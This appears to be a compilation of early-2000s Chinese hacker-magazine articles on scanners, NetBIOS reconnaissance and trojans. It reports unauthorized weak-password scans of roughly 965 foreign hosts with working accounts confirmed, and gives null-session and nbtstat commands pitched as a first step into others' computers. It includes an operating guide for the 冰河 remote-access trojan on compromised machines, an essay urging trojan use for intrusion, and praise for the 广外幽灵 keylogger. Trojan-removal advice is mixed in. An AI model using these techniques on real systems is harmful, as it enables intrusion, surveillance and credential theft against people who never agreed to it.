一个好的扫描器是黑客和管理员们梦寐以求的工具，它可以帮助黑客和管理员们快速地收集信息、发现系统漏洞及安全隐患，从而能起到事半功倍的效果。在国内安全扫描软件中，较著名的当数流光和 X-scan，它们不仅是国产安全扫描器中的扛鼎之作，也是中国安全界的骄傲，甚至可以说能走出国门，与 Nmap、Nessus、ShadowSecurityScanner 这些国外的顶级扫描器一较高下的也唯有流光与 X-scan 了。

相信大多数朋友都用过“流光”和 X-scan，其功能的强大，大家都应该深有体会。关于流光和 X-scan 的故事也是说不完道不完的，本文只是纯粹从用户使用角度出发，主要就两者扫描功能和速度作些简单的比较说明，并记录了一些测试的数据以供大家参考。如果有朋友对如何使用“流光”和 X-scan 还不熟悉，那可以看看笔者前面的说明，里面有详尽的功能介绍和使用说明。下面对二者作些简单的回顾。

“流光”是中国黑客界大名鼎鼎的小榕的力作，“流光一出，谁与争锋”，其功能之强、操作之易无人不晓，在所有国内黑客软件中，流光有着那种“号令天下，傲视群雄”的王者之风。其实单纯地把“流光”定位于扫描器是不够确切的，随着版本的不断推新，今天的“流光”已经俨然是一个集成式的“万能”工具了，它不但是 WIN 下的最优良的扫描器，而且是优秀的字典生成工具和 POP3/FTP 口令猜解器，它的“工具”中又包含了 SQLRCMD 工具、NT/IIS 命令工具、流光种植者、IISHack、NTLlm 等多种工具，其中的 Exploit 包中的很多漏洞的攻击测试代码，特别是从 Fluxay 4.5 开始新增的 Sensor，使得图形界面和扫描模块可以在肉鸡上运行；甚至可以把 Sensor 插入肉鸡后远程控制扫描模块让肉鸡来进行扫描，这样既能节省扫描者的时间和资源，又能隐藏扫描者的 IP 地址；可以说是扫描软件的一大创举，也进一步确立了“流光”在“黑兵器”中的王者之位。

如果说“流光”是“黑兵器”中的王者，那横空出世的 X-scan 就堪比其中的“新秀状元”。X-scan 的开发者是国内著名的安全网站“安全焦点”的成员黄鑫，关于黄鑫，大家想必都知道吧，他就是曾在国内轰动一时、影响深远的木马“冰河”的作者。从 2000 年底开始到现在不过两年的时间里，通过作者的不懈努力，X-scan 从 v0.2 版本开始，经历了近二十个版本升级到了 v2.3 版本，无论从界面、性能、速度上都有了脱胎换骨般的转变，成为近年来国内扫描软件中的一颗最耀眼的新星。可以说今天的 X-scan 综合扫描性能已经超越了其它的国产扫描软件，完全可以和“流光”并驾齐驱了。当然，X-scan 只是个纯粹的扫描器，不像流光那样集万般功能于一身，因此我们以下比较测试的只是两者的扫描功能，不然就没有可比性了。

目前两者已公布的最新版本分别为 Fluxay 4.7 和 X-scan v2.3。我们就以这两个版本来作为讨论对象。Fluxay 和 X-scan 都采用多线程方式进行扫描，具体线程数都可以由用户自定义，其中 Fluxay 4.7 的扫描功能主要在于“探测”中的“高级扫描”，其主要扫描选项有：telnet、cgi/asp、sql、ipc、ftp、pop3、snmp、finger、iis、rpc、misc、imap 等，如图 1 所示，其中点击每个选项页又可以进行具体设置。


图 1

同时，流光还有“扫描 POP3/FTP/NT/SQL 主机”这个功能，可以具体到只扫描某种特定类型的主机，如图 2 所示。


图 2

而 X-scan v2.3 的扫描选项主要有：路由信息、开放端口、snmp 信息、ssl 漏洞、rpc 漏洞、sql 弱口令、ftp 弱口令、netbios、smtp、pop3、cgi、iis、bind、finger、sygate，如图 3 所示。


图 3

通过比较，我们看到两者在扫描选项上可以说是不相上下，但是流光在具体每个选项的设置上比 X-scan v2.3 要详细好多，X-scan 只有其中的几个选项是可以设置的，如图 4 所示。

而且流光其它的如“项目”功能、“字典设置”、“探测选项”、“Sensor 扫描及管理”功能是 X-scan v2.3 没有的。不过 X-scan 也有自己的优势：

图 4

- 1. X-scan 没有流光的使用时限、国内 IP 限制、高级扫描不能多于 5000 台等诸多限制，可以进行大规模的几天几夜的扫描；
- 2. X-scan 能收发自如，开始扫描后，要暂停就能停，再继续就继续，停止就停止，结束线程的速度很快；而流光没有暂停功能，扫描开始后如果想半途结束的话就要经过“漫长”的等待线程结束时段，大家对此都有体会吧！
- 3. X-scan 配备了强大的漏洞资料库，能对扫描到的漏洞作详细的描述，还具有开放性，提供了插件接口以供用户扩展功能；
- 4. X-scan 虽然没有“Sensor”这样的超级功能，但它还可以在命令行下操作，这是流光没有的；同时它可以设置代理扫描服务器，同样能隐藏扫描者的地址。所以说如果只考虑扫描功能，X-scan 绝不比流光逊色。

不过评定一个扫描器的好坏不能光凭界面好看、功能完备，更重要的是看它们的探测速度和准确度。下面我们用这两个扫描器就大家最关心的几个探测选项作了些简单的测试。测试情况如下：

## 测试时间

2002 年 12 月 20 日上午 8 点－11 点

## 测试过程描述

在两台网速相同的主机上分别用“流光”和 X-scan 在同一时间段内对同一 IP 段的主机进行某个项目的扫描，并记录时间及结果（由于流光的高级扫描最多不能超过 5000 台，所以我们只能在此范围内试验）。

## 测试用的准备

由于“流光”和 X-scan 扫描时使用的某些用户名字段和口令字典不同会影响结果的准确性，所以扫描前我们编排了所有测试要用到的 X-scan 字典，统一使用了流光默认字典的内容。

## 测试所用的主机

国内某地两台 100M 光缆接入的主机（100M 的带宽只是电信标的，实际的带宽只有天知道）。

## 测试对象

N 国的 209.*.130.1－209.*.148.1 的 IP 段上的主机，根据事先探测：此 IP 段 ping 后有回应的 IP 共 965 台，其中 NT 主机为 534 台，开了 1433 端口的主机 56 台，开了 21 端口的 FTP 主机约 47 台，当然这些数据只能保证大致上的准确。

## 测试的项目

IPC 探测 NT 弱口令、SQL 弱口令、FTP 弱口令探测、端口扫描、CGI/IIS 漏洞扫描。

### ❖ 第一个测试项目：IPC 探测 NT 弱口令用户

|  | 开始时间 | 结束时间 | 所用时间 | 探测到的 NT 弱口令用户数 |
|---|---|---|---|---|
| 流光 | 8:04:18 | 8:51:03 | 46 分 45 秒 | 22 个 |
| X-scan | 8:04:20 | 8:48:57 | 43 分 37 秒 | 21 个 |

表 1

## 结果分析

发现两者扫描结果报告中的内容基本一致，所探测到的用户名全部能使用，但流光比 X-scan 多探测到了一个用户，测试后发现这个用户也是有效探测结果，可能是网络连接上耗时的缘故使 X-scan 结束了这个探测线程；在 IPC 探测速率上 X-scan 似乎要胜一筹，有点出人意料，主要原因可能在于它对线程的处理上，或许这也是使 X-scan 漏扫的原因。

### ❖ 第二个测试项目：SQL 弱口令探测

|  | 开始时间 | 结束时间 | 所用时间 | 探测到的 SQL 弱口令数 |
|---|---|---|---|---|
| 流光 | 8:50:32 | 9:05:57 | 15 分 25 秒 | 1 |
| X-scan | 8:50:35 | 9:06:20 | 15 分 45 秒 | 1 |

表 2

## 结果分析

在这么几台 MSSQL 主机中能扫出一个来已经算意外了，现在很多公司用的 SQL 服务器已经越来越少了。在这项测试上无论速度上还是结果都相差无几。

### ❖ 第三个测试项目：FTP 弱口令探测

|  | 开始时间 | 结束时间 | 所用时间 | 探测到的 FTP 弱口令数 |
|---|---|---|---|---|
| 流光 | 9:10:10 | 9:47:02 | 36 分 52 秒 | 2 |
| X-scan | 9:10:15 | 9:48:19 | 38 分 4 秒 | 2 |

表 3

## 结果分析

FTP 测试中两者的速度无疑是流光稍快了些，其中扫描到的 2 个结果为 FTP 匿名用户，两者都能显示 FTP 服务版本。

### ❖ 第四个测试项目：3389 端口扫描

|  | 开始时间 | 结束时间 | 所用时间 | 探测到的开放的 3389 端口 |
|---|---|---|---|---|
| 流光 | 9:50:01 | 10:03:03 | 13 分 2 秒 | 39 |
| X-scan | 9:50:03 | 10:04:58 | 12 分 55 秒 | 39 |

表 4

## 结果分析

这里我们测试时只让两者扫描了 3389 端口，从时间和结果我们可以看出两者在端口扫描上相差也不大。

### ❖ 第五个测试项目：CGI/IIS 漏洞扫描


|  | 开始时间 | 结束时间 | 所用时间 | 探测到的 CGI/IIS 漏洞 |
|---|---|---|---|---|
| 流光 | 10:05:45 | 10:08:23 | 2 分 38 秒 | 13 |
| X-scan | 10:05:50 | 10:08:54 | 3 分 04 秒 | 15 |

表 5

## 结果分析

从结果我们看出，X-Scan 比流光收集的 CGI/IIS 漏洞库要多一点，所以探测到的漏洞也多了几条，但是主要的几个大漏洞：Unicode、二次解码、IDQ、Printer 等，两个扫描器都探测到了。

测试到此结束了。当然其中的实验数据由于受实际条件限制，不可能完全准确，而且即使笔者改了字典，想尽量让两者进行“公平”的较量，但由于两者某些默认的扫描方式和探测的具体内容不可避免地有许多不同，所以上述数据也不足以用来说明两者之间孰胜孰劣，而且笔者写此文的目的也不是为了想分出两者的高下来，只是想通过对两者的比较分析，让大家进一步深入了解“流光”和 X-Scan。

> 注意：文中纯属个人之见，朋友们若对其中的一些观点不同，完全可以一笑避之。最后希望大家把“流光”和 X-Scan 当作优秀的安全检测工具来用，为网络安全增加一双雪亮的眼睛，而不要用此来干违反国家法律及网络道德的坏事。

## 通过 nbtstat 跟 137 端口获取信息

sharkyou

139 作为文件共享的默认端口，我们能通过 IPC 的匿名访问来获得很多文件共享的信息，以及使用文件。我们可以先通过命令 `net use \\ip\ipc$ "" /user:""` 建立空连接，然后通过 `net view \\ip` 获得对方的默认共享。但是咱们还不能忽视另一个默认端口 137，通过 `nbtstat -A ip` 我们可以得到对方开启的服务、对方是不是域控等信息，无须扫描。怪不得高手轻易不用扫描器！

137 是 Windows 网络通信协议——“NetBIOS over TCP/IP（NBT）”的计算机名管理功能中使用的端口。由于要进行计算机名字的管理，Windows 不可避免地通过 137 发布信息，下面我们可以看看 nbtstat 到底能返回一些什么样的有用信息给我们。我在自己的电脑上（Windows 2000 SP2）的测试如下：

```text
D:\>nbtstat -n

本地连接：

Node IpAddress: [192.168.0.253] Scope Id: []

NetBIOS Local Name Table
```

| Name | Type | Status |
|---|---|---|
| GOOGLE | <20> UNIQUE | Registered |
| GOOGLE | <00> UNIQUE | Registered |
| WORKGROUP | <00> GROUP | Registered |
| GOOGLE | <1F> UNIQUE | Registered |
| GOOGLE | <03> UNIQUE | Registered |
| ADMINISTRATOR | <03> UNIQUE | Registered |
| INet~Services | <1C> GROUP | Registered |
| IS~GOOGLE | <00> UNIQUE | Registered |

我们暂时不管它们代表什么意思，打开管理工具中的服务项目，停止 IIS Admin Service，再用 `nbtstat -n` 看看。

```text
D:\>nbtstat -n

本地连接：

Node IpAddress: [192.168.0.253] Scope Id: []

NetBIOS Local Name Table
```

| Name | Type | Status |
|---|---|---|
| GOOGLE | <20> UNIQUE | Registered |
| GOOGLE | <00> UNIQUE | Registered |
| WORKGROUP | <00> GROUP | Registered |
| GOOGLE | <1F> UNIQUE | Registered |
| GOOGLE | <03> UNIQUE | Registered |
| ADMINISTRATOR | <03> UNIQUE | Registered |

`INet~Services` 和 `IS~GOOGLE` 就不见了，它们代表的是 IIS 服务。类似地，我们先停掉 Messenger 服务。

| Name | Type | Status |
|---|---|---|
| GOOGLE | <03> UNIQUE | Registered |
| ADMINISTRATOR | <03> UNIQUE | Registered |

这个代表 Messenger 服务的项目消失了。如下：

```text
D:\>nbtstat -n

本地连接：

Node IpAddress: [192.168.0.253] Scope Id: []

NetBIOS Local Name Table
```

| Name | Type | Status |
|---|---|---|
| GOOGLE | <20> UNIQUE | Registered |
| GOOGLE | <00> UNIQUE | Registered |
| WORKGROUP | <00> GROUP | Registered |
| GOOGLE | <1F> UNIQUE | Registered |

我们停止 Workstation 服务，返回的结果就是：

```text
D:\>nbtstat -n

本地连接：

Node IpAddress: [192.168.0.253] Scope Id: []

NetBIOS Local Name Table
```

| Name | Type | Status |
|---|---|---|
| GOOGLE | <20> UNIQUE | Registered |
| GOOGLE | <1F> UNIQUE | Registered |

事实上，我们完全可以一个服务一个服务地停止，让 nbtstat 无法返回任何信息。

作为安全爱好者，刺探信息是进入别人电脑的第一步，如何轻易地得到对方的角色呢？

对方要是返回 Type 为 1C Group 的信息，代表对方是域控制器，这个我们通过一般的扫描器是无法判断的。出现 Type 为 20 Unique 的信息，是对方开了 Microsoft 网络的文件和打印机共享服务。

其实我们还能判断更多的信息（见下表）。通过以上可以知道，除了计算机名以外，还可以准确地了解 IIS、主域控制器、主域浏览以及文件服务器等相关信息。虽说不是百分之百，但有时还能侦测到其他信息。一般的大公司都安装了 Lotus，要是能知道对方装有 Lotus，你的入侵就还没结束，一个大型局域网还在等待你去苦战斗。

可见，137 给电脑的安全威胁一点也不比 139 弱。最好的办法是禁用 NetBIOS over TCP/IP。在网络邻居的属性上把这一项取消，你的电脑就会安全许多。

| Name | Number (h) | Type | Usage |
|---|---|---|---|
| `<computername>` | 00 | U | Workstation Service |
| `<computername>` | 01 | U | Messenger Service |
| `__MSBROWSE__` | 01 | G | Master Browser |
| `<computername>` | 03 | U | Messenger Service |
| `<computername>` | 06 | U | RAS Server Service |
| `<computername>` | 1F | U | NetDDE Service |
| `<computername>` | 20 | U | File Server Service |
| `<computername>` | 21 | U | RAS Client Service |
| `<computername>` | 22 | U | Microsoft Exchange Interchange (MSMail Connector) |
| `<computername>` | 23 | U | Microsoft Exchange Store |
| `<computername>` | 24 | U | Microsoft Exchange Directory |
| `<computername>` | 30 | U | Modem Sharing Server Service |
| `<computername>` | 31 | U | Modem Sharing Client Service |
| `<computername>` | 42 | U | McAfee Anti-Virus |
| `<computername>` | 43 | U | SMS Clients Remote Control |
| `<computername>` | 44 | U | SMS Administrators Remote Control Tool |
| `<computername>` | 45 | U | SMS Clients Remote Chat |
| `<computername>` | 46 | U | SMS Clients Remote Transfer |
| `<computername>` | 4C | U | DEC Pathworks TCP/IP service on Windows NT |
| `<computername>` | 52 | U | DEC Pathworks TCP/IP service on Windows NT |
| `<computername>` | 6A | U | Microsoft Exchange IMC |
| `<computername>` | 87 | U | Microsoft Exchange MTA |
| `<computername>` | BE | U | Network Monitor Agent |
| `<computername>` | BF | U | Network Monitor Application |
| `<username>` | 03 | U | Messenger Service |
| `<domain>` | 00 | G | Domain Name |
| `<domain>` | 1B | U | Domain Master Browser |
| `<domain>` | 1C | G | Domain Controllers |
| `<domain>` | 1D | U | Master Browser |
| `<domain>` | 1E | G | Browser Service Elections |
| `<INet~Services>` | 1C | G | IIS |
| `<IS~computer name>` | 00 | U | IIS |
| `<computername>` | [2B] | U | Lotus Notes Server Service |
| `IRISMULTICAST` | [2F] | G | Lotus Notes |
| `IRISNAMESERVER` | [33] | G | Lotus Notes |
| `Forte_$ND800ZA` | [20] | U | DCA IrmaLan Gateway Server Service |


# 牧马记

# 冰河时代

① 文/port

冰河是国产堪称优秀的木马之一，同时也是被使用最多的一种木马。这里我们将详细讲述它的用法。我们以冰河 6.0 版本为例。

## △冰河使用

冰河有两个主要文件，一个是客户端文件 G_Client.exe，另一个是服务器端文件 G_Server.exe。双击 G_Client 图标启动冰河，冰河主界面如图 1 所示。


图1 冰河主界面

在冰河的菜单下有很多快捷工具按钮，其中第一个是添加主机按钮，点击它则弹出“添加计算机”对话框，如图 2 所示。


图2 添加计算机对话框

下面我们对输入的主机地址进行搜索，点击快捷工具栏上的“自动搜索”按钮，弹出“搜索计算机”对话框。如果已经添加了主机，它就会自动添加到主机列表中，你只要点击“开始搜索”按钮就可以开始搜索工作了。在图 3 中，我们搜索到一台被植入了冰河服务器的主机。


图3 “搜索计算机”对话框

关闭搜索计算机对话框，在冰河客户端主界面上就出现被搜索到的中招主机。下面我们就能对这台肉鸡进行下一步的操作了。

工具栏的第四和第五个图标分别是“查看屏幕”和“控制屏幕”快捷图标，点击这两个快捷图标都会弹出“图像参数设定”的对话框（图 4）。


图4 图像参数设定对话框

其中有图像格式的选择，你可以选择 BMP 和 JPEG 两种格式，还可以调节图像色深和图像品质。设置完后如果点击“查看屏幕”图标，就可以截获对方的屏幕了（图 5）。而如果点击“控制屏幕”按钮，则我们可以通过键盘常用的一些按键来控制对方屏幕。


图5 截获的肉鸡屏幕

下面我们要讲的是冰河的“冰河信使”功能，就是和对方进行点对点的通话，这个就有点像 QQ 的聊天功能。

点击工具栏上的笑脸图标，即可打开“冰河信使”通话框，如图 6 所示。


图6 冰河信使聊天


图7 服务器配置对话框

在修改远程配置中有一个“邮件通知”标签，我们可以根据上面的说明进行配置，如图 8 所示：


图8 邮件通知标签

下面我们来看冰河的文件管理功能。一看就知道，这个很像我们常用的 Windows 资源管理器，如图 9。


图9 冰河命令控制台

- “命令控制台”的命令分为六大类：口令类命令、控制类命令、网络类命令、文件类命令、注册表读写、设置类命令。
- 口令类命令：系统信息及口令、历史口令、击键记录。
- 控制类命令：捕获屏幕、发送信息、进程管理、窗口管理、鼠标控制、系统控制、其他控制（如：锁定注册表！等）。
- 网络类命令：创建共享、删除共享、查看网络信息。
- 文件类命令：目录增删、文本浏览、文件查找、压缩、复制、移动、上传、下载、删除、打开（对于可执行文件则相当于创建进程）。
- 注册表读写：注册表键值读写、重命名、主键浏览、读写。
- 设置类命令：更换墙纸、更改计算机名、读取服务器端配置、在线修改服务器配置。

其他我不再说明，在实际应用中去慢慢体会吧。不过，正如前面很多文章中提到，像冰河这样流行的木马，在实际应用中成功率不会很高。

# 青梅？木马？

◎文／兔子

青梅竹马，唤醒儿时记忆，童年片段载入大脑。点击“青梅竹马”附件，却弹出系统报错讯息，再点击，再报错。一封莫名的 E-mail，主题为“我们儿时照片”，诱惑了好奇的我。从此我的“爱机”不再安分如初，死机、蓝屏、突然重启等非自然现象接踵而至。一次某天，咦……木马，我的电脑被拉入木马了。再次进入我的邮箱，点击那个附件，病毒防火墙报告有木马，原来如此。我的“青梅竹马”居然是木马所伪装，青梅不能配竹马，却与那木马来联姻。这个典型的木马欺骗故事让我们不得不正视木马所带来的危害，我们来看看木马的真面目吧。

# 木马非毒

很多杀毒软件都能准确查出你机器上是否带有木马，本质上病毒和木马具有不同的性质。应该说木马非毒，但杀病毒软件偏要“狗拿耗子”顺带杀马，以增加其附加值，当然也是好事。这里我们详述一下它们的区别。

木马和病毒最大的区别在于本身有无复制能力。大家知道，病毒是会通过各种途径和方法复制自身的，能够广泛传播是病毒之所以可怕的一个主要原因。可以这么认为，传播能力越强的病毒越可怕；而不是破坏力越强的病毒越可怕，要不然一个格式化硬盘的程序该是最厉害的病毒了。比如 format，事实上 format 程序根本没有感染和扩展的能力，所以任何杀毒软件也不会把它误报为病毒。木马是一种后门程序，正如开篇“木马释源”里故事所说，木马里面的士兵是在不知情的情况下被附带进去的。木马程序也是同样的道理，它会在你的系统打开一个“后门”，等待操控者来攻击你的系统。操控者一旦和植入的木马里外应和，那他就可以随心所欲摆布你的电脑了。你能在自己的电脑上做什么，他也同样可以办到；你能够写文件，他也可以写；你能够看图片，他也可以看；他还可以得到你的隐私、密码，甚至你在电脑上鼠标的每一下移动，他都可以尽收眼底！而且还能够控制你的鼠标和键盘去做他想做的任何事情。

# 木马桃花源

木马可说是黑客软件中的轻骑兵。使用顺利则可让初学者也能感受到原来黑客可以这样简单，故实在精而不在多。好的木马只要几种就够了，你需要什么，就挑那种能为你服务的木马；要密码，就选冰河、Barok 等；要远程偷窥，就选 Remote、NetBus 等；需要什么拿什么，而不必抱着上千个各样木马不知道该干什么好。当你使用木马到一定程度以后，你会发现天下木马都是一样，万变不离其宗——后门＋远程控制。

# 不黑比高低

黑客不一定用木马，用木马的也不一定是黑客。而且现在很多的网络入侵高手们都普遍存在这样一个误区，就是认为木马只是电脑初级者的玩具，高手根本可以不用木马！有少数人甚至认为用木马的人根本不配称为黑客。言下之意好像是当了黑客以后就该马上与木马一刀两断。我承认黑客高手可以不用木马完成入侵，但联想想，那些用木马的人是为了什么？当那些自命不凡的黑客们在黑底白字的命令行里埋头苦干半个小时后，才发现他们辛苦完成的工作在那些使用木马的初学者手里只点了几下鼠标就早早完成了。就好像在一堵高墙面前，黑客们要凭自己的高强身手一点点攀爬上去，而那些所谓“初学者”们却搬来一架梯子，三两下就上去了，个中差异，可见一斑！希腊联军强攻 10 年也无法占领的特洛伊城，在一夜之间被一头木马从内部瞬间瓦解！由此可见，我们用木马是为了方便入侵，而不论是黑底白字的命令行，还是图形界面的特洛伊木马，都是为了达到一个目的：入侵成功！聪明的黑客并不挑剔，他们为求目的的“不择手段”，哪种方法更简便、更快捷，他们就选择哪一种。

# 新手避雷线

木马是初学入侵者的首选。因为它的简单上手，且不用强记硬背那些繁复的命令语句，使很多刚接触它的人能够马上得到一种入侵的快感。但久之也养成了一些人对木马的依赖，不思进取，认为只要木马在手，天下机器任我行。事实上并非如此！木马需要受害者合作才能发挥功效，否则就成为一头摆在桌边作野战沙滩上的装饰品，毫无用处。那些想成为黑客的人们，绝不能以会使用木马便获得满足，更要努力学习新的入侵知识，掌握更高的入侵手段。毕竟，一台服务器是不会主动将你的木马迎进大门的，你必须运用自己丰富的知识查找它的漏洞所在，在得到它的控制权后再人为安装木马，来简化以后的入侵，或者获得更多命令行下无法得到的控制。

# 牧马记

# 木马破解与防范

◎文／裴元凌

木马的危害想必大家都有所了解。虽然它没有蠕虫病毒那样强的传播能力，但是它要远比病毒可怕。下面我们来全面地解析木马。

## 木马的结构

- 1. 客户端程序（控制端）
- 2. 服务端程序（运行于被控制的机器之中）
- 3. 服务端配置程序（比较完整的木马都有这个程序，用来对服务端进行配置和修改，比如把服务端程序改成图标文件，以达到伪装的目的）

## 木马的传播方式

- 1. **通过 E-MAIL 传播**：木马一般以附件的形式夹在邮件之中，并取一个十分诱人的名字，引诱受害人去点击它。
- 2. **文件下载**：在一些不正规的站点下载软件是很不安全的，一些木马很可能就被捆绑在一个执行程序里面，当用户下载并执行该文件时，木马就一起被执行从而进入你的电脑。

## 木马的伪装方式

- 1. **修改图标**：有的木马穿上很漂亮的外衣。它可以是以 TXT、HTML、ZIP 等文件形式伪装的图标，甚至可以是 Winamp 的图标。如果你在 E-MAIL 中看见这些图标，要想好了再点击；不然它就很可能是木马。
- 2. **捆绑文件**：把可执行文件和木马捆绑在一起迷惑受害者。
- 3. **设定端口**：木马都有它们自己的通讯端口，（如：冰河使用 7626 端口！）用户可以通过查看开放的端口来判断是否中了木马，并且知道是哪种木马。但是新的木马可以通过更改默认端口来混淆用户的视听，让你分不清是正常通讯端口还是木马开放端口。
- 4. **自我销毁**：这是木马的一大进步。客户端程序被执行了以后，木马会迅速拷贝到系统文件夹中（C:\windows 或 c:\windows\system），大小和源文件差不多。在没有查杀工具的情况下，可以通过对照源文件和系统文件的大小来判断是否中了木马。有的木马在被执行后会自动销毁源文件，这样给判断带来了困难。
- 5. **改装木马**：一般情况下，木马的服务端都要经过改装。我们知道杀毒工具是由软件和病毒库组成，它只认识病毒库中的木马，我们如果改掉木马的特征码，杀毒软件也是可以被绕过的。

## 木马的隐藏

木马是很难缠的，它会藏在电脑里不走，这与它的运行有着直接关系，只有了解它的运行原理才可以很好地将其清除。

木马文件被执行以后，立即就会在 c:\Windows 或 c:\windows\system 目录下生成木马文件，接下来就是在启动组、注册表和非启动组中设置好木马的触发条件，这样木马就安装好了。

木马的触发条件一般出现在以下十个地方：

- 1. **注册表**

木马一般是很偏爱注册表的，睁大眼睛好好检查一下吧！

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion] 下所有以 run 开头的键值

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion] 下所有以 run 开头的键值

HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion 下所有以 run 开头的键值

- 2. **在 WIN.INI 中启动**

在 c:\Windows 目录下有一个配置文件 win.ini，用文本打开，在 [windows] 字段中有启动命令 load= 和 run=

在“=”后面一般都是空的，如有启动程序，如：
load=*.exe
run=*.exe

那么 *.exe 就是木马！

- 3. **在 system.ini 中启动**

在 c:\Windows 目录下有一个配置文件 system.ini，用文本打开，[boot] 字段中的 shell=Explorer.exe 是木马“爱”的栖身之所。若该语句改成“shell=Explorer.exe *.exe”，那么 *.exe 就是木马！

在 [386Enh] 字段中“driver=” 路径\程序名，可能有木马的启动命令。

同样地，在 [mci] 和 [driver32] 中有命令行，也不能掉以轻心。

- 4. **Autoexec.bat 和 config.sys**

在 c 盘的根目录下的这两个文件很显眼，它们可能启动木马。不过这得在客户端与服务端建立连接以后，将添加过木马的同名文件上传到服务端，覆盖这两个文件。这种方法不太隐蔽，很少见。不过还是要小心。

- 5. **启动组**

大部分木马喜欢栖身于此，检查一下吧！文件夹的位置：C:\windows\start menu\programs\startup。

注册表的位置：[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders] startup="C:\windows\start menu\programs\startup"

- 6. **在 winstart.bat 中启动**

winstart.bat 与上文提到的 Autoexec.bat 差不多，也是一个被 Windows 自动加载运行的文件，它一般是应用程序及 Windows 自动生成的，也是危险的！

- 7. ***.ini**

应用程序启动配置文件。客户端利用这些文件能启动程序的特点，将制作好的带有木马启动命令的同名文件上传到服务端并覆盖这个同名文件，这样也可以启动木马！

- 8. **修改文件关联**

修改文件关联对于客户端来说是很实用的，因为大多数的用户对于 TXT 之类的文件不会有太高的警惕性。打开 [HKEY_CLASSES_ROOT\文件类型\shell\open\command] 主键，查看其键值。

以国产木马“冰河”为例：冰河修改 [HKEY_CLASSES_ROOT\txtfile\shell\open\command] 键值，将“c:\windows\notepad.exe %1”改为“c:\windows\system\sysexplr.exe %1”时，打开一个 txt 文件，原本用 notepad 打开的文件现在已经是木马的启动程序。

不仅仅是 txt 文件，通过修改 html、exe、zip 等文件的启动命令键值都可以启动木马，不同之处在于“文件类型”这个主键的差别，txt 是 txtfile 而 zip 是 winzip。

- 9. **捆绑文件**

在上文中提到过。

- 10. **反弹端口木马的主要连接方式**

我们知道，木马文件安装以后，服务端开放端口，准备与客户端连接。防火墙对进出机器的数据都要进行严格的过滤，客户端往服务端发出的数据很快被防火墙发现，会发出警报。而有些防火墙只对进入机器的数据要求严格，而对输出的数据不理会。于是便出现了反弹端口木马。这种木马恰好和一般的木马相反，由客户端打开端口，等待服务端接入，来避过防火墙的阻击。不过这种木马在注册地址里是有痕迹的，查看方法如第 1 点所提到的。

## 木马的防范

木马的防范除了要注意以上提到的 10 条外，还要注意以下几点：

- 1. 要经常检查你的电脑开启的端口，尤其是 1024 以上的端口要密切注意，可以通过扫描工具扫描一下，或者在 DOS 下键入“netstat -an”来查看端口。

（注意：一定要在脱机状态下进行扫描，因为在脱机状态下是不开启端口的）

一些木马都有特定的端口，但需要指出的是，端口不一定是绝对的，因为新型木马都能在“服务端配置程序”中进行端口修改。

- 2. 架设防火墙。架设一个防火墙是十分重要的，（要架设那种对进出数据都严格过滤的防火墙）这样当客户端企图连接你的电脑时，它就会发出警报，你就能知道中了木马。

- 3. 不运行来历不明的软件。即使通过了反病毒软件检查也不要轻易运行，最好用专门的黑客程序清除软件检查一下。

- 4. 安装专门的黑客程序清除软件和实时监控软件。这里推荐木马克星、Lockdown 和 Cleaner。

- 5. 不要接受陌生人的 E-Mail，尤其是带有附件的。就算是熟人的也不要轻易运行，可能它已经被捆绑了木马，但是朋友也不一定知道哦。

如果根据以上笔者的经验来防范木马，那你中木马的可能性就会很小了。

注意：以下清除顺序不可以随意调整

- 一、删除“灰鸽子”服务端程序

由于在 Windows 环境下“灰鸽子”的服务端是处于运行状态，无法直接删除，所以必须进入纯 DOS 状态删除，删除命令如下：

```text
cd c:\windows\system
attrib -r -s -h kernel32.exe
attrib -r -s -h notepod.exe
del kernel32.exe
del notepod.exe
```

还要注意，如果“灰鸽子”服务端设置了 EXE 文件关联的话，将会导致注册表编辑器无法运行，所以在删除服务端之前，先将注册表编辑器重命名，以便以后对注册表进行更改，操作命令如下：ren c:\windows\regedit.exe regedit.com

- 二、删除注册表中启动键

由于我们改了注册表编辑器名称，所以要打开注册表编辑器应为：打开“开始”→“运行”，然后输入“regedit.com”，启动注册表编辑器后，依次打开 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run，在右边的窗口中删除名称为“LoadWindows”的键值就可以了。

- 三、清除文件关联

灰鸽子可以设置四种文件关联：EXE 关联、TXT 关联、INI 关联、INF 关联，其中 EXE 关联可以和其它三种类型同时存在。

- ①解除 EXE 关联

启动注册表编辑器，找到 HKEY_CLASSES_ROOT\Exefile\shell\Open\Command 主键，查看键值是不是系统默认的“"%1" %*”，如果被修改，则改成默认值。

- ②解除 TXT 关联

打开注册表的 HKEY_CLASSES_ROOT\txtfile\shell\open\command 主键，其默认值的正常参数应为“C:\windows\notepad.exe %1”，如果不是，请修改为正确参数。

- ③解除 INI 关联

INI 文件的关联配置保存在注册表 HKEY_CLASSES_ROOT\Inifile\shell\Open\Command 主键下，其默认值按理也是“C:\windows\notepad.exe %1”，如果被修改的话，也要改回来。

- ④解除 INF 关联

打开注册表的 HKEY_CLASSES_ROOT\Inffile\shell\Open\Command 主键，和 INI、TXT 文件关联一样，其默认值也是“C:\windows\notepad.exe %1”，如果被修改，也要立刻改回正确的参数。

至此，灰鸽子已经被你彻底扫地出门了，你不再担心成为别人“盘中餐”了。

# 妖艳的“广外女生”

◎文／风格

“广外女生”刚出现的时候，真猜不出这是什么东西，是“广大的外国女生”还是“广州外面的女生”。反正这款软件“女生”扮清纯的木马，确实搅得她的名字在木马界风光了好些日子。

后来终于知道，她是广州外语外贸大学“广外女生”网络小姐的木马处女作。

不管怎么说，这个和大多数木马一样性质的工具，一旦让她有机会恋上了你，你就难逃噩梦了。

- **相关工具：**
- 远程木马——广外女生 1.53b
- 相关软件——广外幽灵 v2.7

- **广外主页：**
- http://www.gwgirl.com

- **中招特征：**
- 防火墙、杀毒软件突然不能运行，呈现假死状态。机器会莫名死掉。

**附带广外幽灵的说明：**

广外幽灵是非常隐秘的键盘击键记录、密码盗取工具，可以越过现在的一切网络防火墙。体积小但威力大。

图一所示 3 个幽灵图标文件，其中配置器大小为 185K，生成服务器的大小为 37K。

配置器操作界面：界面操作很简单，根据它的提示你会顺利选择好各项要求的。

广外幽灵和广外女生一旦双剑合璧的话，将无往而不利！

# 初恋“广外女生”

